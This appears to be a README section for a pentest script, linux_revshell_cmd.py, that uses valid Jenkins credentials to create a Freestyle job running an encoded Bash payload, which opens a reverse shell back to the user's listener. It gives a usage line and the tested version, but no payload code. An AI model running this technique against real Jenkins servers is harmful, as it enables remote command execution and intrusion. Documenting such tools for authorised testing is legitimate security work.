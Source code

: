 ## linux_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Linux.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Freestyle project"** JOB.\
![linux_revshell_cmd_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_cmd.py/images/linux_revshell_cmd_1.png)

Then configures or BUILD it to **"Execute shell"** with the **Bash** encoded payload.
![linux_revshell_cmd_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_cmd.py/images/linux_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./linux_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![linux_revshell_cmd_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_cmd.py/images/linux_revshell_cmd_3.png)
![linux_revshell_cmd_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/linux_revshell_cmd.py/images/linux_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 on Ubuntu Server 22.04.3 LTS
